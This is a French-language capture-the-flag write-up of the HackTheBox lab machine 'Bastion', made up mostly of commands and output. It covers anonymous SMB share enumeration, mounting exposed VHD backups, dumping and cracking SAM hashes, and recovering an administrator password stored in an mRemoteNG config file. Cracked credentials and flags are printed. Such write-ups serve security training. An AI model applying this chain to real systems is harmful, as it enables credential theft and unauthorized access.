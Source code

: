 ```yaml
---
layout: post
title: HackTheBox - Bastion  
---
```


![bastion]({{ site.baseurl }}/images/bastion.jpg){:class="img-responsive"}

Débutons avec un scan : 

~~~bash
root@kali:~# nmap -p- -Pn -T5 10.10.10.134
Starting Nmap 7.70 ( https://nmap.org ) at 2019-06-10 23:42 CEST
Warning: 10.10.10.134 giving up on port because retransmission cap hit (2).
Nmap scan report for 10.10.10.134
Host is up (0.066s latency).
Not shown: 63167 closed ports, 2355 filtered ports
PORT      STATE SERVICE
22/tcp    open  ssh
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
5985/tcp  open  wsman
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49668/tcp open  unknown
49669/tcp open  unknown
49670/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 41.27 seconds
~~~

Et si nous regardions la partie SMB ?  

~~~bash
root@kali:~# nmap -p445 -A 10.10.10.134
...
Host script results:
|_clock-skew: mean: -59m54s, deviation: 1h24m49s, median: -1h59m53s
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: Bastion
|   NetBIOS computer name: BASTION\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2019-06-10T23:50:42+02:00
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2019-06-10 23:50:41
|_  start_date: 2019-06-09 23:13:05

TRACEROUTE (using port 445/tcp)
HOP RTT      ADDRESS
1   ... 10
11  14.93 ms 10.10.10.134
~~~

En attendant continuons sur l’énumération :

~~~bash
root@kali:~# smbclient -L 10.10.10.134 -N

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	Backups         Disk      
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
~~~

Un dossier backups vraisemblablement intéressant : 

~~~bash
root@kali:~# smbclient //10.10.10.134/ -N
Try "help" to get a list of possible commands.
smb: \> list
0:	server=10.10.10.134, share=backups
smb: \> ls
  .                                       D        0  Tue Apr 16 12:02:11 2019
  ..                                      D        0  Tue Apr 16 12:02:11 2019
  note.txt                               AR      116  Tue Apr 16 12:10:09 2019
  SDT65CB.tmp                             A        0  Fri Feb 22 13:43:08 2019
  WindowsImageBackup                      D        0  Fri Feb 22 13:44:02 2019

		7735807 blocks of size 4096. 2787024 blocks available
smb: \> get note.txt
getting file \note.txt of size 116 as note.txt (0,9 KiloBytes/sec) (average 0,9 KiloBytes/sec)
~~~

Affichons le contenu des fameuses notes : 

~~~bash
root@kali:~# cat note.txt 

Sysadmins: please don't transfer the entire backup file locally, the VPN to the subsidiary office is too slow.
~~~

En gros, nous sommes face à un partage contenant des sauvegardes, voyons voir : 

~~~bash
root@kali:~# smbclient //10.10.10.134/backups -N
Try "help" to get a list of possible commands.
smb: \> ls
  .                                       D        0  Tue Apr 16 12:02:11 2019
  ..                                      D        0  Tue Apr 16 12:02:11 2019
  note.txt                               AR      116  Tue Apr 16 12:10:09 2019
  SDT65CB.tmp                             A        0  Fri Feb 22 13:43:08 2019
  WindowsImageBackup                      D        0  Fri Feb 22 13:44:02 2019

smb: \> cd WindowsImageBackup\
smb: \WindowsImageBackup\> ls
  .                                       D        0  Fri Feb 22 13:44:02 2019
  ..                                      D        0  Fri Feb 22 13:44:02 2019
  L4mpje-PC                               D        0  Fri Feb 22 13:45:32 2019

smb: \WindowsImageBackup\> cd "L4mpje-PC\Backup 2019-02-22 124351\"
smb: \WindowsImageBackup\L4mpje-PC\Backup 2019-02-22 124351\> ls
  .                                       D        0    Fri Feb 22 13:45:32 2019
  ..                                      D        0    Fri Feb 22 13:45:32 2019
  A.vhd                                   A 37761024    Fri Feb 22 13:44:03 2019
  B.vhd                                   A 5418299392  Fri Feb 22 13:45:32 2019
~~~

Récupérons ces VHD. 

Ils doivent contenir des informations intéressantes, puis montons les : 

~~~bash
root@kali:~# virt-list-partitions b.vhd 
/dev/sda1
root@kali:~# virt-list-partitions a.vhd 
/dev/sda1
root@kali:~# guestmount --add b.vhd  --ro /mnt/b -m /dev/sda1
root@kali:~# ls /mnt/b
'$Recycle.Bin'  'Documents and Settings'   ProgramData     'System Volume Information'
 autoexec.bat    pagefile.sys             'Program Files'   Users
 config.sys      PerfLogs                  Recovery         Windows
~~~

Nous allons dumper la base de données SAM :

~~~bash
root@kali:/mnt/b/Windows/System32/config# samdump2 -o /root/out.sam /mnt/b/Windows/System32/config/SYSTEM /mnt/b/Windows/System32/config/SAM
root@kali:/mnt/b/Windows/System32/config# cat /root/out.sam 

*disabled* Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
*disabled* Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
L4mpje:1000:aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9:::
~~~
Maintenant cassons la avec John :

~~~bash
root@kali:~# john out.sam -format=nt --wordlist=/usr/share/wordlists/rockyou.txt

Using default input encoding: UTF-8
Loaded 2 password hashes with no different salts (NT [MD4 128/128 SSE2 4x3])
Warning: no OpenMP support for this hash type, consider --fork=2
Press 'q' or Ctrl-C to abort, almost any other key for status
                 (*disabled* Administrator)
bureaulampje     (L4mpje)
2g 0:00:00:00 DONE (2019-06-11 17:26) 2.439g/s 11457Kp/s 11457Kc/s 11463KC/s buresres..burdy1
Warning: passwords printed above might not be all those cracked
Use the "--show --format=NT" options to display all of the cracked passwords reliably
Session completed
root@kali:~# john /root/out.sam -format=nt --show 
Administrator::500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest::501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
L4mpje:bureaulampje:1000:aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9:::

3 password hashes cracked, 0 left
~~~

Connectons-nous via SSH : 

~~~bash
l4mpje@BASTION C:\Users\L4mpje>type Desktop\user.txt 9bfe57d5c3309db3a151772f9d86c6cd 
~~~

En regardant autour de nous, il semble qu'un client mRemoteNG soit installé.
Voyons pour récupérer sa configuration :

~~~bash
root@kali:~# scp -v L4mpje@10.10.10.134:C:/\Users/\L4mpje/\AppData/\Roaming/\mRemoteNG/\confCons.xml mremote.txt
~~~
Depuis une machine virtuelle, importons le fichier `confCons.xml` et extrayons le mot de passe contenu dans les champs. 
Pour cela : 
- Cliquer sur Outils > Outils externes
- Faire un clic droit dans une des case vide du tableau > Nouvel outil externe (Maj + F4)
- Dans nom affiché > `Afficher le mot de passe`
- Dans nom du fichier > `CMD `
- Arguments > `/k echo %password%`
Maintenant depuis la liste de connexions, faire un clic droit sur la connexion qui nous intéresse et cliquer sur Afficher le mot de passe.
Dans notre cas : 

~~~bash
thXLHM96BeKL0ER2
~~~
> Source : http://hackersvanguard.com/mremoteng-insecure-password-storage/

Depuis SSH, tentons d'utiliser le mot de passe trouvé dans mRemoteNG :

~~~bash
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.
administrator@BASTION C:\Users\Administrator>whoami 
bastion\administrator 
administrator@BASTION C:\Users\Administrator>type Desktop\root.txt 958850b91811676ed6620a9c430e65c8                     
~~~

We are ROOT !

---
